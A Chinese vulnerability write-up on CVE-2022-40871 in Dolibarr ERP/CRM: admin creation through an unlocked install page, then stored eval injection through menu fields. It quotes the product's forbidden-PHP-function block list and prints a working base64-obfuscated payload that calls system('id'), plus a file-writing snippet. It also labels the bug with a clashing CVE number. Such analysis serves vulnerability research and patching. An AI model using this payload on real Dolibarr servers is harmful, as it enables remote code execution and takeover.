








# CVE-2022-40871 Dolibarr 任意添加管理员与 RCE 漏洞分析 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/16888668.html`](https://www.cnblogs.com/backlion/p/16888668.html)

# 0x01 漏洞简介

> Dolibarr ERP & CRM <=15.0.3 is vulnerable to Eval injection. By default, any administrator can be added to the installation page of dolibarr, and if successfully added, malicious code can be inserted into the database and then execute it by eval.

CVE 编号：[CVE-2022-2633](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40871)

漏洞描述：Dolibarr edit.php 存在远程命令执行漏洞，攻击者通过逻辑漏洞创建管理员后可以通过后台漏洞获取服务器权限

影响版本：<= 15.0.3

# 0x02 漏洞分析

## 1.环境搭建

源码下载地址：https://github.com/Dolibarr/dolibarr/archive/refs/tags/15.0.3.zip

解压到 web 目录下直接访问~/htdocs/即可



然后配置一下 conf/conf.php 即可进行安装

## 2.任意管理员用户注册

这其实算是个逻辑漏洞，在 install 系统以后，他不会进行锁定，而是需要用户在 documents 目录中手动添加，所以我们随时可以进入这里去添加管理员账号：~/install/step4.php

比如这里我添加一个 aaa 用户


可以成功进入后台的



## 3.后台 RCE

后台 RCE 的最后点在 htdocs/core/lib/functions.lib.php 的 dol_eval()函数

但是这里是有 waf 的，把大多数的危险函数都给 ban 了

```
  // We block use of php exec or php file functions
 $forbiddenphpstrings = array('$$');

    $forbiddenphpstrings = array_merge($forbiddenphpstrings, array('_ENV', '_SESSION', '_COOKIE', '_GET', '_POST', '_REQUEST'));

    $forbiddenphpfunctions = array("exec", "passthru", "shell_exec", "system", "proc_open", "popen", "eval", "dol_eval", "executeCLI");

    $forbiddenphpfunctions = array_merge($forbiddenphpfunctions, array("fopen", "file_put_contents", "fputs", "fputscsv", "fwrite", "fpassthru", "require", "include", "mkdir", "rmdir", "symlink", "touch", "unlink", "umask"));

    $forbiddenphpfunctions = array_merge($forbiddenphpfunctions, array("function", "call_user_func"));

    $forbiddenphpregex = 'global\s+\$|\b('.implode('|', $forbiddenphpfunctions).')\b'; do {

        $oldstringtoclean = $s;

        $s = str_ireplace($forbiddenphpstrings, '__forbiddenstring__', $s);

        $s = preg_replace('/'.$forbiddenphpregex.'/i', '__forbiddenstring__', $s); //$s = preg_replace('/\$[a-zA-Z0-9_\->\$]+\(/i', '', $s); // Remove $function( call and $mycall->mymethod(
 } while ($oldstringtoclean != $s); if (strpos($s, '__forbiddenstring__') !== false) {

        dol_syslog('Bad string syntax to evaluate: '.$s, LOG_WARNING); if ($returnvalue) { return 'Bad string syntax to evaluate: '.$s;

        } else {

            dol_syslog('Bad string syntax to evaluate: '.$s); return '';

        }

    } //print $s."<br>\n";

    if ($returnvalue) { if ($hideerrors) { return @eval('return '.$s.';');

        } else { return eval('return '.$s.';');

        }

    } else { if ($hideerrors) {

            @eval($s);

        } else {

            eval($s);

        }

    }
```

这里再去找找 dol_eval()的调用，上面的 verifCond()就调用了

而这里进行了一个拼接，这个外面后面再谈

```
function verifCond($strToEvaluate)

{ global $user, $conf, $langs; global $leftmenu; global $rights; // To export to dol_eval function //print $strToEvaluate."<br>\n";
 $rights = true; if (isset($strToEvaluate) && $strToEvaluate !== '') {

      $str = 'if(!('.$strToEvaluate.')) $rights = false;';

      dol_eval($str, 0, 1, '2'); 

   } return $rights;

}
```

再转而寻找 verifCond 函数的全局的参数可控的调用，在 menubase.class.php 的 menuLoad()函数中就存在一个点


可以看到这里 verifCond 代码虽然是可控的，但是是从数据库中查询的结果中获取的

关注 perms 和 enable，这两个都是可以直接进入 verifCond 的

```
 $resql = $this->db->query($sql); if ($resql) {

            $numa = $this->db->num_rows($resql);

            $a = 0;

            $b = 0; while ($a < $numa) { //$objm = $this->db->fetch_object($resql);
 $menu = $this->db->fetch_array($resql); // Define $right
 $perms = true; if (isset($menu['perms'])) {

                    $tmpcond = $menu['perms']; if ($leftmenu == 'all') {

                        $tmpcond = preg_replace('/\$leftmenu\s*==\s*["\'a-zA-Z_]+/', '1==1', $tmpcond); // Force part of condition to true
 }

                    $perms = verifCond($tmpcond); //print "verifCond rowid=".$menu['rowid']." ".$tmpcond.":".$perms."<br>\n";
 } // Define $enabled
 $enabled = true; if (isset($menu['enabled'])) {

                    $tmpcond = $menu['enabled']; if ($leftmenu == 'all') {

                        $tmpcond = preg_replace('/\$leftmenu\s*==\s*["\'a-zA-Z_]+/', '1==1', $tmpcond); // Force part of condition to true
 }

                    $enabled = verifCond($tmpcond);

                }
```

我们去前面看看这里执行的 sql 语句，他是从".MAIN_DB_PREFIX."menu 表中查询的数据，但是有 WHERE 条件语句

*   m.entity IN (0,".$conf->entity.")
*   m.menu_handler IN ('".$this->db->escape($menu_handler)."','all')

所以我们如果能找到一个 INSERT 进".MAIN_DB_PREFIX."menu 中、可以控制 perms 和 enable 字段并且 entity 和 menu_handler 能满足 WHERE 条件的语句即可，这里注意 entity 来源于$conf->entity

```
$sql = "SELECT m.rowid, m.type, m.module, m.fk_menu, m.fk_mainmenu, m.fk_leftmenu, m.url, m.titre, m.prefix, m.langs, m.perms, m.enabled, m.target, m.mainmenu, m.leftmenu, m.position";

$sql .= " FROM ".MAIN_DB_PREFIX."menu as m";

$sql .= " WHERE m.entity IN (0,".$conf->entity.")";

$sql .= " AND m.menu_handler IN ('".$this->db->escape($menu_handler)."','all')"; if ($type_user == 0) {

    $sql .= " AND m.usertype IN (0,2)";

} if ($type_user == 1) {

    $sql .= " AND m.usertype IN (1,2)";

}

$sql .= " ORDER BY m.position, m.rowid";
```

这里直接正则搜索一下，的确存在这么个点，在同一个文件的 create()函数



接下来得看看参数是否可控，这里的 VALUES 设定为成员属性，但是 entity 是$conf->entity，这里就直接满足了条件，因为上面 SQL 查询也是这个



接下来发现 menu_handler 在执行 menuLoad 函数的时候都会自动填入的



所以这两个 WHERE 条件都解决了，剩下就是看 perms 和 enable 是否可控了，在类内部没看到有对成员变量赋值的地方，所以还得全局搜索一下

发现 perms 和 enable 在 menus/edit.php 中都是可以直接控制的



经过调试发现，这里 menuId 需要唯一否则会冲突无法写入数据库，这里的 type 需要设置为 1，否则也会报错


接下来就可以研究一下，如何去绕过 waf 执行 eval，这里作者的做法是利用 php 的特性：变量函数

```
// file_put_contents
 $a=base64_decode('ZmlsZV9wdXRfY29udGVudHM='); // shellcode
 $a('.1234.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8+Cg=='));
```

再往前看 verifCond 函数

这里进行了一个字符串的拼接，由于是执行 eval 的，所以我们可以去闭合他的括号，注释掉后面的代码

```
function verifCond($strToEvaluate)

{ global $user, $conf, $langs; global $leftmenu; global $rights; // To export to dol_eval function //print $strToEvaluate."<br>\n";
 $rights = true; if (isset($strToEvaluate) && $strToEvaluate !== '') {

      $str = 'if(!('.$strToEvaluate.')) $rights = false;';

      dol_eval($str, 0, 1, '2'); 

   } return $rights;

}
```

也就是这样的一个 payload（无害化的 payload

1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//

然后放在 enable 参数存入数据库，最后发包如下


成功存入数据库


debug 一下，进入 verifCond


跟进 verifCond，恶意构造拼接绕过，进入 dol_eval


代码执行成功


成功 getshell



漏洞调用栈



# 0x03 漏洞总结

这里这个 RCE 漏洞，其实原理类似于二次注入，先把恶意代码存入数据库，再从数据库提取数据时触发恶意代码，这里还绕过了一个 waf，利用的是 php 的特性——变量函数

## 漏洞修复

这里作者对于漏洞的修复一个是 verifCond 函数的加固

这里取消了字符串的拼接且让 dol_eval 的第四个参数为"1"


这样就会走入下面的这个判断，看注释这里的正则就是为了防止 RCE 而设计的


一个是 dol_eval 函数的加强，这里 forbiddenphpfunctions 里添加了 verifCond 函数，直接禁止了 verifCond 的执行，但是不太懂这有啥意义 hhh


作者：Huamang 转自原文连接： [`blog.huamang.xyz/post/cve-2022-40871/`](https://blog.huamang.xyz/post/cve-2022-40871/)